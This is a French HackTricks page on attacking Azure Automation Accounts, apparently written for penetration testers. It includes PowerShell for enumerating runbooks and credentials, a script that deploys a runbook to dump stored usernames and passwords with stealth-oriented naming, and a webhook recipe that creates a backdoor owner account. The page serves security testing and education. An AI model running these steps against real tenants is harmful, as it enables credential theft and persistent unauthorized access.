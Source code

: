 # Az - Compte d'Automatisation

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informations de Base

Azure Automation fournit un service d'automatisation basé sur le cloud, de mises à jour du système d'exploitation et de gestion de la configuration qui prend en charge une gestion cohérente à travers vos environnements Azure et non-Azure. Il comprend l'automatisation des processus, la gestion de la configuration, la gestion des mises à jour, les capacités partagées et les fonctionnalités hétérogènes.

Cela ressemble à des "**tâches planifiées**" dans Azure qui vous permettent d'exécuter des choses (actions ou même des scripts) pour **gérer**, vérifier et configurer l'**environnement Azure**.

### Compte Exécuter en tant que

Lorsqu'un **Compte Exécuter en tant que** est utilisé, il crée une **application** Azure AD avec un certificat auto-signé, crée un **principal de service** et attribue le rôle de **Contributeur** pour le compte dans l'**abonnement actuel** (beaucoup de privilèges).\
Microsoft recommande d'utiliser une **Identité Gérée** pour le Compte d'Automatisation.

{% hint style="warning" %}
Cela sera **retiré le 30 septembre 2023 et remplacé par des Identités Gérées.**
{% endhint %}

## Runbooks & Jobs

Les **Runbooks** vous permettent d'**exécuter du code PowerShell arbitraire**. Cela pourrait être **abusé par un attaquant** pour voler les permissions du **principal attaché** (le cas échéant).\
Dans le **code** des **Runbooks**, vous pourriez également trouver des **informations sensibles** (telles que des identifiants).

Si vous pouvez **lire** les **jobs**, faites-le car ils **contiennent** la **sortie** de l'exécution (informations potentiellement **sensibles**).

Allez dans `Comptes d'Automatisation` --> `<Sélectionnez le Compte d'Automatisation>` --> `Runbooks/Jobs/Groupes de travailleurs hybrides/Tâches de surveillance/identifiants/variables/certificats/connexions`

### Travailleur Hybride

Un Runbook peut être exécuté dans un **conteneur à l'intérieur d'Azure** ou dans un **Travailleur Hybride** (machine non-azure).\
L'**Agent Log Analytics** est déployé sur la VM pour l'enregistrer en tant que travailleur hybride.\
Les jobs des travailleurs hybrides s'exécutent en tant que **SYSTEM** sur Windows et compte **nxautomation** sur Linux.\
Chaque Travailleur Hybride est enregistré dans un **Groupe de Travailleurs Hybrides**.

Par conséquent, si vous pouvez choisir d'exécuter un **Runbook** dans un **Travailleur Hybride Windows**, vous exécuterez des **commandes arbitraires** à l'intérieur d'une machine externe en tant que **System** (excellente technique de pivot).

## Compromission de la Configuration d'État (SC)

Azure Automation **Configuration d'État** est un service de gestion de configuration Azure qui vous permet d'écrire, de gérer et de compiler des [configurations](https://learn.microsoft.com/en-us/powershell/dsc/configurations/configurations) PowerShell Desired State Configuration (DSC) pour des nœuds dans n'importe quel cloud ou centre de données sur site. Le service importe également des [Ressources DSC](https://learn.microsoft.com/en-us/powershell/dsc/resources/resources), et attribue des configurations aux nœuds cibles, le tout dans le cloud. Vous pouvez accéder à la Configuration d'État d'Automatisation Azure dans le portail Azure en sélectionnant **Configuration d'État (DSC)** sous **Gestion de la Configuration**.

Des **informations sensibles** pourraient être trouvées dans ces configurations.

### RCE

Il est possible d'abuser de SC pour exécuter des scripts arbitraires sur les machines gérées.

{% content-ref url="az-state-configuration-rce.md" %}
[az-state-configuration-rce.md](az-state-configuration-rce.md)
{% endcontent-ref %}

## Énumération

{% code overflow="wrap" %}
```powershell
# Check user right for automation
az extension add --upgrade -n automation
az automation account list # if it doesn't return anything the user is not a part of an Automation group

# Gets Azure Automation accounts in a resource group
Get-AzAutomationAccount

# List & get DSC configs
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration | where {$_.name -match '<name>'} | Export-AzAutomationDscConfiguration -OutputFolder . -Debug
## Automation Accounts named SecurityBaselineConfigurationWS... are there by default (not interesting)

# List & get Run books code
Get-AzAutomationAccount | Get-AzAutomationRunbook
Get-AzAutomationAccount | Get-AzAutomationRunbook | Export-AzAutomationRunbook -OutputFolder /tmp

# List credentials & variables & others
Get-AzAutomationAccount | Get-AzAutomationCredential
Get-AzAutomationAccount | Get-AzAutomationVariable
Get-AzAutomationAccount | Get-AzAutomationConnection
Get-AzAutomationAccount | Get-AzAutomationCertificate
Get-AzAutomationAccount | Get-AzAutomationSchedule
Get-AzAutomationAccount | Get-AzAutomationModule
Get-AzAutomationAccount | Get-AzAutomationPython3Package
## Exfiltrate credentials & variables and the other info loading them in a Runbook and printing them

# List hybrid workers
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>
```
### Créer un Runbook

{% code overflow="wrap" %}
```powershell
# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

# Create a Powershell Runbook
Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```
### Exfiltration des identifiants et variables définis dans un compte d'automatisation à l'aide d'un Run Book

{% code overflow="wrap" %}
```powershell
# Change the crdentials & variables names and add as many as you need
@'
$creds = Get-AutomationPSCredential -Name <credentials_name>
$runbook_variable = Get-AutomationVariable -name <variable_name>
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password
'@ | out-file -encoding ascii 'runbook_get_creds.ps1'

$ResourceGroupName = '<resource_group_name>'
$AutomationAccountName = '<auto_acc_name>'
$RunBookName = 'Exif-Credentials' #Change this for stealthness

# Creare Run book, publish, start, and get output
New-AzAutomationRunBook -name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Type PowerShell
Import-AzAutomationRunBook -Path 'runbook_get_creds.ps1' -Name $RunBookName -Type PowerShell -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Force
Publish-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
$start = Start-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
start-sleep 20
($start | Get-AzAutomationJob | Get-AzAutomationJobOutput).Summarynt
```
{% endcode %}

{% hint style="info" %}
Vous pourriez faire la même chose en modifiant un Run Book existant, et depuis la console web.
{% endhint %}

## Persistance

### Automatisation qui crée un utilisateur hautement privilégié

* Créer un nouveau compte d'automatisation
* "Créer un compte Azure Run As" : Oui
* Importer un nouveau runbook qui crée un utilisateur AzureAD avec des permissions de propriétaire pour l'abonnement
* Exemple de runbook pour ce blog situé ici – [https://github.com/NetSPI/MicroBurst](https://github.com/NetSPI/MicroBurst)
* Publier le runbook
* Ajouter un webhook au runbook
* Ajouter le module AzureAD au compte d'automatisation
* Mettre à jour les modules Azure Automation
* Attribuer les droits "Administrateur d'utilisateurs" et "Propriétaire d'abonnement" au compte d'automatisation
* Finalement perdre votre accès…
* Déclencher le webhook avec une requête post pour créer le nouvel utilisateur

{% code overflow="wrap" %}
```powershell
$uri = "https://s15events.azure-automation.net/webhooks?token=h6[REDACTED]%3d"
$AccountInfo  = @(@{RequestBody=@{Username="BackdoorUsername";Password="BackdoorPassword"}})
$body = ConvertTo-Json -InputObject $AccountInfo
$response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
```
{% endcode %}

## Références

* [https://learn.microsoft.com/fr-fr/azure/automation/overview](https://learn.microsoft.com/fr-fr/azure/automation/overview)
* [https://learn.microsoft.com/fr-fr/azure/automation/automation-dsc-overview](https://learn.microsoft.com/fr-fr/azure/automation/automation-dsc-overview)
* [https://github.com/rootsecdev/Azure-Red-Team#runbook-automation](https://github.com/rootsecdev/Azure-Red-Team#runbook-automation)

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
